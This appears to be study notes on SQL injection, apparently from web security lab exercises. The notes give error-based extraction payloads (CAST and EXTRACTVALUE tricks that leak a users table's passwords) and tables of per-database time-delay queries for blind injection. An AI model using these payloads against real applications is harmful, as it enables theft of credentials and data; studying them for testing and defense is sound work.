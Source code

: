 ### Extracing sensitive data via verbose SQL error messages

| Database   | Query                                                                         | Error Message                                                                  |
| ---------- | ----------------------------------------------------------------------------- | ------------------------------------------------------------------------------ |
| Microsoft  | `SELECT 'foo' WHERE 1 = (SELECT 'secret')`                                    | Conversion failed when converting the varchar value 'secret' to data type int. |
| PostgreSQL | `SELECT CAST((SELECT password FROM users LIMIT 1) AS int)`                    | invalid input syntax for integer: "secret"                                     |
| MySQL      | `SELECT 'foo' WHERE 1=1 AND EXTRACTVALUE(1, CONCAT(0x5c, (SELECT 'secret')))` | XPATH syntax error: '\secret'                                                  |


Sometimes the misconfiguration of database results in verbose message.

But occasionally, you may be able to induce the application to generate an error message that contains some of the data that is returned by the query. This effectively turns an otherwise blind SQL injection vulnerability into a visible one.

- You can use `CAST()` to achieve this, it enables you to convert one data type to another:

`CAST((SELECT example_column FROM example_table) AS int)`

May cause error similar to the following:

`=> ERROR: invalid input syntax for type integer: "Example data"`

Example payload:

`TrackingId=' AND 2=CAST((SELECT password FROM users LIMIT 1) AS int)--`

`=> ERROR: invalid input syntax for type integer: "0h50pj2lgndwg4wlj8tj"`

If MySQL: `TrackingId=' UNION SELECT 'foo' WHERE 1=1 AND EXTRACTVALUE(1, CONCAT(0x5c, (SELECT password FROM users WHERE username='administrator')))--`

### Exploiting blind SQL injection by triggering time delays

#### Time delays

| Database   | Query                                 |
| ---------- | ------------------------------------- |
| Oracle     | `dbms_pipe.receive_message(('a'),10)` |
| Microsoft  | `WAITFOR DELAY '0:0:10'`              |
| PostgreSQL | `SELECT pg_sleep(10)`                 |
| MySQL      | `SELECT SLEEP(10)`                    |

#### Conditional time delays

| Database   | Query                                                                                                                            |
| ---------- | -------------------------------------------------------------------------------------------------------------------------------- |
| Oracle     | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a' <concatinate here> dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual` |
| Microsoft  | `IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'`                                                                                |
| PostgreSQL | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END`                                                  |
| MySQL      | `SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a')`                                                                                   |

